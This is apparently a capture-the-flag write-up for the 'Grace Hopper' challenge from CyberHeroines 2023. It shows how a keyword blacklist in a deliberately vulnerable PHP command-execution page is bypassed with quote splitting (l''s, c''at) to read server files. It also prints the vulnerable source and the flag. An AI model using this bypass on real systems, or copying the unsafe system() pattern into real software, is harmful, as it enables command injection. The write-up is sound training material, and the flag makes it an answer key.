 # CyberHeroines 2023

## Grace Hopper

> [Grace Brewster Hopper](https://en.wikipedia.org/wiki/Grace_Hopper) (née Murray; December 9, 1906 – January 1, 1992) was an American computer scientist, mathematician, and United States Navy rear admiral. One of the first programmers of the Harvard Mark I computer, she was a pioneer of computer programming who invented one of the first linkers. Hopper was the first to devise the theory of machine-independent programming languages, and the FLOW-MATIC programming language she created using this theory was later extended to create COBOL, an early high-level programming language still in use today. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Grace_Hopper)
> 
> Chal: Command [this webapp](https://cyberheroines-web-srv2.chals.io/vulnerable.php) like [this Navy Real Admiral](https://www.youtube.com/watch?v=1LR6NPpFxw4)
>
>  Author: [Sandesh](https://github.com/Sandesh028)
>

Tags: _web_

## Solution
A webapp is given that allows us to enter and execute `commands`. Typing in `id` gives us `uid=33(www-data) gid=33(www-data) groups=33(www-data)` so php executes just system commands. 

To do a bit of enumeration we can enter `ls` but this time we get `You think it's that easy? Try harder!` as a result. So we have to bypass a whitelist. Thankfully the whitelist is very basic and we can bypass it by using quotes like `l''s`, this gives us:

```bash
cyberheroines.sh
cyberheroines.txt
vulnerable.php
```

Printing the `cyberheroines.txt` with `c''at cyberheroines.txt` gives us `e2d49cb900cc2b8aad02d972099366c44381e3e7c24736312ca839fbd18743a7`. Ok, this is even mentioned at the page: `Hint: The file contains a SHA256 hash of the flag.` But still not usefull, since cracking this is probably not feasible. There are other files to be read though.

For one we can check out the php code for more informations:

```php
<?php
$output = '';
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];

    $blacklist = array('cat', 'ls', 'more', 'tac', 'nl', 'head', 'tail', 'awk', 'sed');
    $safe_to_run = true;
    foreach ($blacklist as $word) {
        if (strpos($cmd, $word) !== false) {
            $safe_to_run = false;
            $output = "You think it's that easy? Try harder!";
            break;
        }
    }

    if ($safe_to_run) {
        ob_start();
        system($cmd);
        $output = ob_get_clean();
    }
}
?>
```

Nothing here, but one file remaining and `c''at cyberheroines.sh` gives us the flag.

```bash
FLAG="CHCTF{t#!$_!s_T#3_w@Y}"
echo -n "$FLAG" | sha256sum > cyberheroines.txt
```

Flag `CHCTF{t#!$_!s_T#3_w@Y}`